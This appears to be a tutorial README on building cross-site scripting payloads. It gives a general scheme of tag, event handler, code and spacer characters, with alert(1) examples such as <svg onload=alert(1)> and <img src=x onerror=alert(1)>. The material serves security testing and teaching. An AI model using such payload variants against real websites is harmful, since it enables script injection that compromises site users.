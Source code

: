 # **XSS-payloads**
### XSS payload scheme
Aside from the classic XSS payload <script>alert(1)</script> and source based ones like <a href=x>, we can start building payloads using the following simple scheme:
```
<tag handler=code>
````
Where we have the HTML tag, the event handler associated with it and the javascript code to execute.
But although it’s true for short payloads like <svg onload=alert(1)>, some payloads like <b onclick=alert(1)> that requires user
 interaction for example, needs a text to be clicked for the javascript code be triggered:
```
<b onclick=alert(1)>click me!
```
 
Some payloads also need tag attribute(s) inside it:

```
<img src=x onerror=alert(1)>
```
And some needs something before it:

```
<frameset><frame src onload=alert(1)>
```
So let’s make a better scheme:

```
extra1 <tag extra2 handler=code> extra3
```
It has the following variation:
```
extra1 <tag handler=code extra2> extra3
```
Almost there. There’s also an important thing to consider: the spaces inside the tag. In the major browsers, we can have a slash between tag and handler, for example:

```
<svg/onload=alert(1)>
```
This and other characters are allowed between tag and handler, tag and attribute, attribute and handler etc without change the syntax.

Here is our final scheme:
```
extra1 <tag spacer1 extra2 spacer2 handler spacer3 = spacer4 code spacer5> extra3
```
Variation:
```
extra1 <tag spacer1 handler spacer3 = spacer4 code spacer5 extra2> extra3 (without spacer2)
```

